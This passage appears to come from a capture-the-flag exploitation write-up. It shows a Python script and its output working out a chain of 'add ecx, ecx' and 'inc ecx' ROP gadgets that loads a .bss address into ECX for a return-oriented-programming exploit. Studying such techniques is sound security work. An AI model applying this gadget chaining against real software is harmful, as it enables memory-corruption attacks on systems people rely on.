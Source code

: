 ```bash
0xf1c00000L
0x1e3800000L
0x3c7000000L
0x78e000000L
0xf1c000000L
0x1e38000000L
0x3c70000000L
0x78e0000000L
0xf1c0000000L
0x1e380000000L
```
it works! And we can put `0x0804a040` into ECX with `0x0804849a : add ecx, ecx ; ret` and `0x080484d7 : inc ecx ; ret` gadgets: suppose we have ECX = 0x2, what about this python script now?

```python
n = 0x804a040
while n > 2:
        if n % 2 == 0:
                print "add %ecx, %ecx ---> 0x804849a; n = " + str(n) + "( " + hex(n) +" )"
                n = n/2
        else:

                print "inc %ecx ---> 0x080484d7; n = " + str(n) + "( " + hex(n) +" )"
                n = n-1
print "n = " + str(n)
```

and execute that s**t

```bash
$ python printAddrBSS.py 
add %ecx, %ecx ---> 0x804849a; n = 134520896( 0x804a040 )
add %ecx, %ecx ---> 0x804849a; n = 67260448( 0x4025020 )
add %ecx, %ecx ---> 0x804849a; n = 33630224( 0x2012810 )
add %ecx, %ecx ---> 0x804849a; n = 16815112( 0x1009408 )
add %ecx, %ecx ---> 0x804849a; n = 8407556( 0x804a04 )
add %ecx, %ecx ---> 0x804849a; n = 4203778( 0x402502 )
inc %ecx ---> 0x080484d7; n = 2101889( 0x201281 )
add %ecx, %ecx ---> 0x804849a; n = 2101888( 0x201280 )
add %ecx, %ecx ---> 0x804849a; n = 1050944( 0x100940 )
add %ecx, %ecx ---> 0x804849a; n = 525472( 0x804a0 )
add %ecx, %ecx ---> 0x804849a; n = 262736( 0x40250 )
add %ecx, %ecx ---> 0x804849a; n = 131368( 0x20128 )
add %ecx, %ecx ---> 0x804849a; n = 65684( 0x10094 )
add %ecx, %ecx ---> 0x804849a; n = 32842( 0x804a )
inc %ecx ---> 0x080484d7; n = 16421( 0x4025 )
add %ecx, %ecx ---> 0x804849a; n = 16420( 0x4024 )
add %ecx, %ecx ---> 0x804849a; n = 8210( 0x2012 )
inc %ecx ---> 0x080484d7; n = 4105( 0x1009 )
add %ecx, %ecx ---> 0x804849a; n = 4104( 0x1008 )
add %ecx, %ecx ---> 0x804849a; n = 2052( 0x804 )
add %ecx, %ecx ---> 0x804849a; n = 1026( 0x402 )
inc %ecx ---> 0x080484d7; n = 513( 0x201 )
add %ecx, %ecx ---> 0x804849a; n = 512( 0x200 )
add %ecx, %ecx ---> 0x804849a; n = 256( 0x100 )
add %ecx, %ecx ---> 0x804849a; n = 128( 0x80 )
add %ecx, %ecx ---> 0x804849a; n = 64( 0x40 )
add %ecx, %ecx ---> 0x804849a; n = 32( 0x20 )
add %ecx, %ecx ---> 0x804849a; n = 16( 0x10 )
add %ecx, %ecx ---> 0x804849a; n = 8( 0x8 )
add %ecx, %ecx ---> 0x804849a; n = 4( 0x4 )
n = 2
```
